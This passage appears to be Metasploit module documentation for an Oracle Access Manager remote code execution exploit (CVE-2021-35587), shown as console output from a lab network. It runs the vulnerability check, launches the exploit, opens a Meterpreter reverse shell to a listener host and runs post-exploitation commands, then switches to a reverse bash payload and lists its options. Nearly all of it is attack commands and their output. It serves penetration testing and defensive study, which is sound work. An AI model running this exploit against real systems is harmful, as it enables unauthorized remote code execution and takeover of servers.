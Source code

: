 ```
Exploit target:

   Id  Name
   --  ----
   0   Linux Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > check
[*] 192.168.86.70:14100 - The target appears to be vulnerable. Oracle Access Manager 12.2.1.4.0.
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > exploit 
[*] Started reverse TCP handler on 192.168.86.122:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Oracle Access Manager 12.2.1.4.0.
[*] Meterpreter session 1 opened (192.168.86.122:4444 -> 192.168.86.70:49264) at 2025-04-01 12:34:15 +0100

meterpreter > getuid
Server username: oracle
meterpreter > sysinfo
Computer     : 172.18.0.4
OS           : Oracle 7.9 (Linux 6.5.0-14-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > pwd
/u01/oracle/user_projects/domains/access_domain
meterpreter >
```

### Unix Command

```
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > unset Payload
Unsetting Payload...
[!] Variable "Payload" unset - but will use a default value still. If this is not desired, set it to a new value or attempt to clear it with set --clear Payload
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > set target 2
target => 2
msf6 exploit(multi/http/oracle_access_manager_rce_cve_2021_35587) > show options 

Module options (exploit/multi/http/oracle_access_manager_rce_cve_2021_35587):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.86.70    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      14100            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /oam/            yes       The base path to the OAM application
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  eth0             yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```